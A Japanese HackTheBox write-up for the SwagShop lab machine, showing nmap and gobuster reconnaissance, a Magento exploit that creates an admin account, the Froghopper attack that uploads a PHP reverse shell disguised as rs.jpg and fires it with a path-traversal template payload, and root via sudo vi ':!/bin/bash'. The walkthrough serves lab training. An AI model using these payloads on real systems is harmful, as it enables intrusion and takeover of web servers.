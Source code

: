 # はじめに
HackTheBoxの攻略などを自分用にまとめたものです。  
主に記録用として記しています。  
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">  
GitHub(ペネトレーションテスト用チートシート):  
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet
Twitter:@yukitsukai1731

# SwagShop
![スクリーンショット 2020-08-26 16.15.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/40e5238b-4a71-dd7f-929f-dacfc302c22e.png)


HackTheBox公式より
SwagShop is an easy difficulty linux box running an old version of Magento. The version is vulnerable to SQLi and RCE leading to a shell. The www user can use vim in the context of root which can abused to execute commands.

SwagShopは、Magentoの古いバージョンを実行している簡単な難易度のlinuxのボックスです。バージョンは、SQLiとRCEシェルにつながる脆弱性があります。wwwのユーザーは、コマンドを実行するために悪用することができますルートのコンテキストでvimを使用することができます。

# Recon(偵察)
SwagShop(10.10.10.140)に対して、スキャンを行います。
まずnmapでスキャンを開始します。

## nmap 

```
nmap -sC -sV -oN nmap/initial 10.10.10.140
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -oN...通常出力

```
# Nmap 7.80 scan initiated Tue Aug 25 23:17:57 2020 as: nmap -sC -sV -oN nmap/initial 10.10.10.140
Nmap scan report for 10.10.10.140
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 25 23:18:56 2020 -- 1 IP address (1 host up) scanned in 59.28 seconds
```

この結果から80番ポートが空いていることが分かります。  
ブラウザからアクセスしてみると以下のようなmagentoを用いられて作成されたサイトが表示されます。  
サイトの下には「©2014 Magento Demo Store. All Rights Reserved.」と表記されていることが確認できます。
![スクリーンショット 2020-08-26 12.54.42.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/75c3d443-e2f0-9fc4-7d06-b07362876d23.png)

# gobuster
次に、gobusterを使用してディレクトリを検索します。

```
gobuster dir -t 25 -u http://10.10.10.117 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o initial -x php
```

- dir...dirモード
- -t...スレッド数
- -u...URL指定
- -w...ワードリスト指定
- -o...ファイル出力
- -x...拡張子指定

```
/media (Status: 301)
/index.php (Status: 200)
/includes (Status: 301)
/lib (Status: 301)
/install.php (Status: 200)
/app (Status: 301)
/js (Status: 301)
/api.php (Status: 200)
/shell (Status: 301)
/skin (Status: 301)
/cron.php (Status: 200)
/var (Status: 301)
/errors (Status: 301)
/mage (Status: 200)
/server-status (Status: 403)
```

# Exploitation(侵入)
先ほど、確認した「©2014 Magento Demo Store. All Rights Reserved.」という情報を利用して脆弱性が報告されていないか確認します。  
Googleを用いて「magento 2014 exploit」というワードで検索してみると、以下のようにいくつか情報がヒットします。
![スクリーンショット 2020-08-26 13.05.50.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/b39bcbe0-de7e-736d-bc35-7a0e8ba590dd.png)
searchsploitでexploitコードを落とします。

```
searchsploit -m xml/webapps/37977.py
mv 37977.py exploit.py
```

![スクリーンショット 2020-08-26 13.06.58.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/e849cd1d-4492-2caf-460e-b1e5917fd3f1.png)
落としてきたexploitコードのtarget部分を「http\://10.10.10.140/index.php」に変更し、要らない部分をコメントアウトします。
![スクリーンショット 2020-08-26 16.39.44.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/db0a27c6-ebb5-1fe4-4bb8-4f2fe28e0ce7.png)
実行すると、WORKEDという文字が表示され、  
ユーザー名:forme  
パスワード:forme  
というアカウントが作成されます。  
この情報を用いてmagentoの管理画面にアクセスします。(http://10.10.10.140/index.php/admin)

![スクリーンショット 2020-08-26 13.12.43.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c6cfe7af-de13-2a9c-e9c4-15828b2acff2.png)
![スクリーンショット 2020-08-26 13.13.18.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/afdb79d6-b5aa-e58e-a528-84e35c184b7a.png)

次にファイルをアップロードできる機構がないか調べるため、Googleで「magento reverse shell」などのワードで検索すると、magentoで使用可能なFroghopper攻撃についての記載を見つけることができます。
https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper
![スクリーンショット 2020-08-26 16.13.04.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/013bda7c-6da9-9d26-a92e-682cb35452ca.png)
今回はこの手順に従って侵入を行います。

## Froghopper攻撃
①[System]-[Configuration]-[Advance]-[Developer]の「Template Settings」のAllow SymlinksをYesに変更してsave configを押下します。
![スクリーンショット 2020-08-26 16.24.42.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/e9e4cdd0-8d44-8e66-4c27-19574846f32a.png)

②[Catalog]-[Manage Categories]のGeneral Informationを通じてリバースシェルするためのファイルを送信します。  
今回、リバースシェルにはpentestmonkeyを使用しました。  
https://github.com/pentestmonkey/php-reverse-shell
php-reverse-shell.php内のipアドレスとポートを自身のマシンのものに変更します。
![スクリーンショット 2020-08-26 16.02.18.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/6c04522d-b3df-5d2f-716f-2ec8a2b9c982.png)
次に拡張子をjpgに変更し、rs.jpgという名前で保存しておきます。
![スクリーンショット 2020-08-26 16.03.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d007db58-ce91-af1e-7178-c94fa6c010bc.png)
General Informationの部分を
Name:適当な名前
Is Active：Yesに変更
Image:先ほど作成したrs.jpgを指定
にしてからSave Categoryを押下します。
![スクリーンショット 2020-08-26 16.04.52.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/63872581-a7b8-9b15-f6fb-9075850d5f7e.png)
完了後、/media/catalog/category/にrs.jpgが配置されていることが確認できます。
![スクリーンショット 2020-08-26 16.05.03.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/e803ff16-89d7-fce6-24d4-66a53b50833d.png)

③[Newsletter]-[Newsletter Templates]-[Add New Template]からrs.jpgを発火させます。  
入力欄に下記のワードを入力し,右上の「Preview Template」を押下します。  
このとき、netcatを使用して通信を待ち受けておきます。

```
{{block type='core/template' template='../../../../../../media/catalog/category/rs.jpg'}}
```

![スクリーンショット 2020-08-26 16.06.04.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/9f147a14-6cfc-e127-eb3d-c383ce93bf43.png)
待ち受けていたnetcatにリバースシェルが接続されます。
![スクリーンショット 2020-08-26 16.06.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/62826631-2777-726a-22e0-f1d58c49d6e9.png)

# Privileges Escalation(権限昇格)
sudo -lで調べてみると現在のユーザで/usr/bin/vi /var/www/html/*をroot権限で動作させることができることが分かります。
![スクリーンショット 2020-08-26 16.08.40.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/8d06f89b-db3b-136b-09d8-0e45ca67525f.png)

```
sudo /usr/bin/vi /var/www/html/index.php
```

起動したvi内で下記のコマンドを実行します。

```
:!/bin/bash
```
![スクリーンショット 2020-08-26 16.08.40.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/4ee3bc84-b6b2-d237-cbf0-7c5cd5eee06f.png)
これでroot権限を取得することができました。  
お疲れ様でした。
